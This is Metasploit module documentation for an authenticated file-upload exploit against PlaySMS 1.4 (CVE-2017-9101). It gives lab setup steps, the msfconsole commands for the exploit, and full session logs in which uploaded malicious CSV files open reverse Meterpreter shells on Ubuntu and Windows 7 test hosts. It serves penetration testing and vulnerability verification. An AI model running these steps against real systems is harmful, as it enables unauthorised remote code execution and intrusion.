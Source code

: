 ## Description
A malicious file can be uploaded by an authenticated attacker through the import.php (aka the Phonebook import feature) in PlaySMS version 1.4. Additional information and vulnerabilities can be viewed on Exploit-DB [42044]( https://www.exploit-db.com/exploits/42044/) and [CVE-2017-9101](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9101)

## Vulnerable Application 
Available at [Exploit-DB](https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz)

### Vulnerable Application Installation Setup.
 1. Download Application : `wget https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz`
 2. Extract : `tar -xvf 577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz`
 3. Move In WebDirectory : `mv playsms-1.4/web/* /var/www/html/`
 4. make config file: `cp /var/www/html/config-dist.php /var/www/html/config.php`
 5. Change Owner : `chown -R www-data:www-data /var/www/html/`
 6. Set DB creds in config.php File. And dump playsms-1.4/db/playsms.sql in your playsms database.
 7. Now Visit : http://localhost/

## Verification Steps

 1. Install the application
 2. Start msfconsole
 3. Do: `use exploit/multi/http/playsms_uploadcsv_exec`
 4. Do: `set rport <port>`
 5. Do: `set rhost <ip>`
 6. Do: `set targeturi SecreTSMSgatwayLogin`
 7. Do: `set username touhid`
 8. Do: `set password diana`
 9. Do: `check`
```
[*] 10.22.1.10:80 The target appears to be vulnerable.
```
 10. Do: `set lport <port>`
 11. Do: `set lhost <ip>`
 12. Do: `exploit`
 13. You should get a shell.

## Scenarios
### Playsms on Ubuntu Linux
```
msf > use exploit/multi/http/playsms_uploadcsv_exec                                             
msf exploit(multi/http/playsms_uploadcsv_exec) > set rhost 10.22.1.7
rhost => 10.22.1.7
msf exploit(multi/http/playsms_uploadcsv_exec) > set targeturi SecreTSMSgatwayLogin
targeturi => SecreTSMSgatwayLogin
msf exploit(multi/http/playsms_uploadcsv_exec) > check 
[*] 10.22.1.7:80 The target appears to be vulnerable.
msf exploit(multi/http/playsms_uploadcsv_exec) > set username touhid
username => touhid
msf exploit(multi/http/playsms_uploadcsv_exec) > set password diana
password => diana
msf exploit(multi/http/playsms_uploadcsv_exec) > set lhost 10.22.1.3 
lhost => 10.22.1.3
msf exploit(multi/http/playsms_uploadcsv_exec) > run 

[*] Started reverse TCP handler on 10.22.1.3:4444 
[+] X-CSRF-Token for login : c9ad6a45cd206228554b237985b344ef
[*] Trying to Login ......
[+] Authentication successful: touhid:diana
[+] X-CSRF-Token for upload : 112cd5ecbdf12daf60391609d19ae3d6
[*] Trying to upload malicious CSV file ....
[*] Sending stage (37543 bytes) to 10.22.1.7
[*] Meterpreter session 2 opened (10.22.1.3:4444 -> 10.22.1.7:56580) at 2018-03-25 17:42:43 +0530

meterpreter > sysinfo 
Computer    : Dina
OS          : Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686
Meterpreter : php/linux
meterpreter > 

```
### Playsms on Windows 7
```
msf > use exploit/multi/http/playsms_uploadcsv_exec                                             
msf exploit(multi/http/playsms_uploadcsv_exec) > set rhost 10.22.1.9
rhost => 10.22.1.9 
msf exploit(multi/http/playsms_uploadcsv_exec) > set targeturi web
targeturi => web
msf exploit(multi/http/playsms_uploadcsv_exec) > check 
[*] 10.22.1.9:80 The target appears to be vulnerable.
msf exploit(multi/http/playsms_uploadcsv_exec) > set username test
username => test
msf exploit(multi/http/playsms_uploadcsv_exec) > set password metasploit
password => metasploit
msf exploit(multi/http/playsms_uploadcsv_exec) > set verbose true
verbose => true
msf exploit(multi/http/playsms_uploadcsv_exec) > exploit 

[*] Started reverse TCP handler on 10.22.1.3:4444 
[+] X-CSRF-Token for login : cf467bf4829b355a5f4f2964e853ff2c
[*] Trying to Login ......
[+] Authentication successful: test:metasploit
[+] X-CSRF-Token for upload : 3aca00c2d6a5988ed74fa7d992e14904
[*] Trying to upload malicious CSV file ....
[*] Sending stage (37543 bytes) to 10.22.1.9
[*] Meterpreter session 1 opened (10.22.1.3:4444 -> 10.22.1.9:50065) at 2018-03-25 17:27:57 +0530

meterpreter > sysinfo 
Computer    : TOUHID-PC
OS          : Windows NT TOUHID-PC 6.1 build 7600 (Windows 7 Ultimate Edition) i586
Meterpreter : php/windows
meterpreter > 

```
